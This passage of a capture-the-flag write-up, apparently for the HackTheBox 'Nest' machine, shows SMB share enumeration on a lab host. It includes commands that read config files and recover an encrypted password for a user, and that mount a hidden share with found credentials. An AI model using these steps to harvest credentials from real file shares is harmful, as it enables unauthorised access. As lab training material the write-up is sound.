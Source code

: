 ```bash
./IT/Configs/NotepadPlusPlus
./IT/Configs/NotepadPlusPlus/config.xml
./IT/Configs/NotepadPlusPlus/shortcuts.xml
./IT/Configs/RU Scanner
./IT/Configs/RU Scanner/RU_config.xml
./IT/Configs/Server Manager
./IT/Installs
./IT/Reports
./IT/Tools
./Production
./Reports
./Shared
./Shared/Maintenance
./Shared/Maintenance/Maintenance Alerts.txt
./Shared/Templates
./Shared/Templates/HR
./Shared/Templates/HR/Welcome Email.txt
./Shared/Templates/Marketing
```
We have a couple of new files we can access. The config.xml files of `NotepadPlusPlus` and `RU Scanner` seem the most interesting.

```bash
root@darkness:/mnt/nest# cat "IT/Configs/RU Scanner/RU_config.xml"
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>

root@darkness:/mnt/nest# cat "IT/Configs/NotepadPlusPlus/config.xml"
[...]
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
</History>
[...]
```
We have an encrypted password: `fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=` and a new location: `\\HTB-NEST\Secure$\IT\Carl\Temp.txt`. Let us check out the new location next.

```bash
root@darkness:~# umount /mnt/nest; mount -o user=TempUser -t cifs //10.10.10.178/Secure$ /mnt/nest/
Password for TempUser@//10.10.10.178/Secure$:  ***********
root@darkness:/mnt/nest# find .
.
./Finance
find: ‘./Finance’: Permission denied
./HR
find: ‘./HR’: Permission denied
./IT
find: ‘./IT’: Permission denied
```
Seems like we don't have the permission to list files and folders on this share. Let us try to access the location we found in the config file.
